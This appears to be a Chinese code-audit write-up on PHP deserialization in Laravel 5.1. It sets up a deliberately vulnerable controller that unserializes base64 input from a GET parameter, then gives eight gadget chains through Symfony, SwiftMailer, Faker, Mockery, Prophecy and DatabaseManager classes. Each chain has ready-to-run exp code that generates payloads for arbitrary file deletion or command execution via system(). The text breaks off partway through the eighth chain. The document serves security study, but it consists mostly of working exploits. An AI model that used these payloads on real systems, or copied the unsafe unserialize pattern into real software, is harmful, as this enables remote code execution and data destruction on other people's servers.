# 环境搭建
> [源码下载链接]()

> 在 `app/Http/routes.php` 中添加路由

```php
Route::get('/', "DemoController@demo");
```

> 在 `app/Http/Controllers` 目录下添加控制器

```php
<?php
namespace App\Http\Controllers;
use Illuminate\Http\Request;

class DemoController extends Controller
{
    public function demo()
    {
        highlight_file(__FILE__);
        if(isset($_GET['data'])){
            $filename = "C:/Tools/phpstudy_pro/WWW/laravel51/public/info.php";
            @unserialize(base64_decode($_GET['data']));
            if(file_exists($filename)){
                echo $filename." is exit!".PHP_EOL;
            }else{
                echo $filename." has been deleted!".PHP_EOL;
            }
        }
    }
}
```

# 漏洞分析
> 先寻找一下反序列化漏洞的触发点，全局搜索 `__destruct()` 方法



## POC链-1(任意文件删除漏洞)
> 跟进 `Pipes/WindowsPipes.php` 中的 `__destruct()` 方法，发现其调用了 `removeFiles()` 方法，跟进去后发现是一个简单的仍以文件删除漏洞



### exp
```php
<?php
namespace Symfony\Component\Process\Pipes {
    class WindowsPipes {
        private $files = array();
        function __construct() {
            $this->files = array("C:/Tools/phpstudy_pro/WWW/laravel51/public/info.php");
        }
    }
    echo base64_encode(serialize(new WindowsPipes()));
}
?>
```


### POC链利用流程图


## POC链-2
> 跟进 `lib/classes/Swift/Mime/SimpleMimeEntity.php` 中的 `__destruct()` 方法，由于这里的 `$this->_cache` 和 `$this->_cacheKey` 是可控的，因此可以来调用一个没有 `clearAll()` 方法的类从而来触发 `__call()` 方法


> 全局搜索 `__call()` 方法，跟进 `src/Faker/Generator.php` 中的 `__call()` 方法，这里和 Laravel5.4 的链子中的一条链子相似了 (不进行具体分析了，可以看之前 Laravel5.4 的代码审计)



### exp
```php
<?php
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['clearAll' => "system"];
        }
    }
}

namespace {
    use Faker\Generator;
    class Swift_Mime_SimpleMimeEntity {
        private $_cache;
        private $_cacheKey;
        public function __construct($cacheKey="") {
            $this->_cache = new Generator();
            $this->_cacheKey = $cacheKey;
        }
    }
    $demo = new Swift_Mime_SimpleMimeEntity("calc");
    echo base64_encode(serialize($demo));
}
?>
```


### POC链利用流程图



## POC链-3
> 跟进 `lib/classes/Swift/KeyCache/DiskKeyCache.php` 中的 `__destruct()` 方法，这里的 `$this->_keys` 是可控的



> 继续看看 foreach 中调用的 `clearAll()` 方法，当 `array_key_exists()` 判断为 true 时进入 foreach，接着调用 `clearKey()` 方法，进入 if 判断后调用 `hasKey()` 方法，由于这里的 `$this->_path` 是可控的，因此可以给其赋值为一个类名从而触发该类中的 `__toString()` 方法



> 这里可以选择 `library/Mockery/Generator/DefinedTargetClass.php` 中的 `__toString()` 方法作为触发的点，其先会调用 `getName()` 方法，且该方法中的 `$this->rfc` 是可控的，因此可以来触发一个没有 `getName()` 方法的类从而来触发该类中的 `__call()` 方法



> 全局搜索 `__call()` 方法，跟进 `src/Faker/ValidGenerator.php` 中的 `__call()` 方法，其 while 语句内的 `$this->validator` 是可控的，当 `$res` 能够是命令执行函数的参数时即可触发命令执行 RCE，由于 `$this->generator` 也是可控的，因此可以寻找一个能够有返回参数值的方法类来达到返回命令执行函数参数的目的从而 RCE


> 这里可以用 `src/Faker/DefaultGenerator.php` 来做触发点，当前面设置的方法不存在时这里就会触发到 `__call()` 方法，从而返回可控参数 `$this->default` 的值
 


### exp
```php
<?php 
namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
    class ValidGenerator {
        protected $generator;
    	protected $validator;
    	protected $maxRetries;
        public function __construct($payload) {
            $this->generator = new DefaultGenerator($payload);
            $this->validator = "system";
            $this->maxRetries = 1; // 不设置值的话默认是重复10000次
        }
    }
}

namespace Mockery\Generator {
	use Faker\ValidGenerator;
	class DefinedTargetClass {
		private $rfc;
		public function __construct($payload) {
			$this->rfc = new ValidGenerator($payload);
		}
	}
}

namespace {
	use Mockery\Generator\DefinedTargetClass;
	class Swift_KeyCache_DiskKeyCache {
		private $_path;
		private $_keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
		public function __construct($payload) {
			$this->_path = new DefinedTargetClass($payload);
		}
	}
	echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```



### POC链利用流程图



## POC链-4
> 起始点和终点的利用链和 `POC链-3` 一样，将 `__toString()` 的触发点变一下，跟进 `lib/classes/Swift/Mime/SimpleMimeEntity.php` 中的 `__toString()` 方法，其调用了 `toString()` 方法，由于 `$this->_headers` 是可控的，因此可以接上上一条链子的 `__call()` 方法利用进行 RCE 操作


### exp
```php
<?php 
namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
    class ValidGenerator {
        protected $generator;
    	protected $validator;
    	protected $maxRetries;
        public function __construct($payload) {
            $this->generator = new DefaultGenerator($payload);
            $this->validator = "system";
            $this->maxRetries = 1; // 不设置值的话默认是重复10000次
        }
    }
}

namespace {
	use Faker\ValidGenerator;
	class Swift_Mime_SimpleMimeEntity {
		private $_headers;
		public function __construct($payload) {
			$this->_headers = new ValidGenerator($payload);
		}
	}
	class Swift_KeyCache_DiskKeyCache {
		private $_path;
		private $_keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
		public function __construct($payload) {
			$this->_path = new Swift_Mime_SimpleMimeEntity($payload);
		}
	}
	echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```

### POC链利用流程图



## POC链-5
> 起始点和 `POC链-3` 一样，从 `__toString()` 开始，跟进 `src/Prophecy/Argument/Token/ObjectStateToken.php` 中的 `__toString()` 方法，这里 `$this->util` 和 `$this->value` 均可控


> 接着后面利用 `POC链-2` 后半段的 `__call()` 触发方法即可进行命令执行操作从而达到 RCE

### exp
```php
<?php 
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
	use Faker\Generator;
	class ObjectStateToken {
		private $name;
    	private $value;
    	private $util;
    	public function __construct($payload) {
    		$this->name = "H3rmesk1t";
    		$this->util = new Generator();;
    		$this->value = $payload;
    	}
	}
}

namespace {
	use Prophecy\Argument\Token\ObjectStateToken;
	class Swift_KeyCache_DiskKeyCache {
		private $_path;
		private $_keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
		public function __construct($payload) {
			$this->_path = new ObjectStateToken($payload);
		}
	}
	echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```

### POC链利用流程图


## POC链-6
> 起始点和终点的利用链和 `POC链-5` 一样，将 `__toString()` 的触发点变一下，跟进 `src/Prophecy/Argument/Token/IdenticalValueToken.php` 中的 `__toString()` 方法，这里 `$this->string`、`$this->util` 和 `$this->value` 均可控



### exp
```php
<?php 
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
	use Faker\Generator;
	class IdenticalValueToken {
		private $string;
    	private $value;
    	private $util;
    	public function __construct($payload) {
    		$this->name = null;
    		$this->util = new Generator();;
    		$this->value = $payload;
    	}
	}
}

namespace {
	use Prophecy\Argument\Token\IdenticalValueToken;
	class Swift_KeyCache_DiskKeyCache {
		private $_path;
		private $_keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
		public function __construct($payload) {
			$this->_path = new IdenticalValueToken($payload);
		}
	}
	echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```

### POC链利用流程图



## POC链-7
> 起始点和终点的利用链和 `POC链-5` 一样，将 `__toString()` 的触发点变一下，跟进 `src/Prophecy/Argument/Token/ExactValueToken.php` 中的 `__toString()` 方法，这里 `$this->string`、`$this->util` 和 `$this->value` 均可控



### exp
```php
<?php 
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
	use Faker\Generator;
	class ExactValueToken {
		private $string;
    	private $value;
    	private $util;
    	public function __construct($payload) {
    		$this->name = null;
    		$this->util = new Generator();;
    		$this->value = $payload;
    	}
	}
}

namespace {
	use Prophecy\Argument\Token\ExactValueToken;
	class Swift_KeyCache_DiskKeyCache {
		private $_path;
		private $_keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
		public function __construct($payload) {
			$this->_path = new ExactValueToken($payload);
		}
	}
	echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```

### POC链利用流程图



## POC链-8
> 前半段链子和之前的其它链子一样都行，只要能触发到 `__call()` 方法)，接着跟进 `src/Illuminate/Database/DatabaseManager.php` 中的 `__call()` 方法，其调用了 `connection()` 方法，跟进去，这里要让其进入 `makeConnection()` 方法从而来利用 `call_user_func()` 方法来进行 RCE


> 跟进 `getConfig()` 方法，继续跟进 `Arr::get($connections, $name)`，可以看到经过 `get()` 方法返回回来的 `$config` 的值是可控的，可以将命令执行函数返回回来，从而导致 RCE


### exp-1
```php
<?php 
namespace Illuminate\Database{
	class DatabaseManager{
	    protected $app;
	    protected $extensions ;
	    public function __construct($payload)
	    {
	        $this->app['config']['database.default'] = $payload;
	        $this->app['config']['database.connections'] = [$payload => 'system'];
	        $this->extensions[$payload]='call_user_func';
	    }
	}
}

namespace {
	use Illuminate\Database\DatabaseManager;
	class Swift_Mime_SimpleMimeEntity {
		private $_headers;
		public function __construct($payload) {
			$this->_headers = new DatabaseManager($payload);
		}
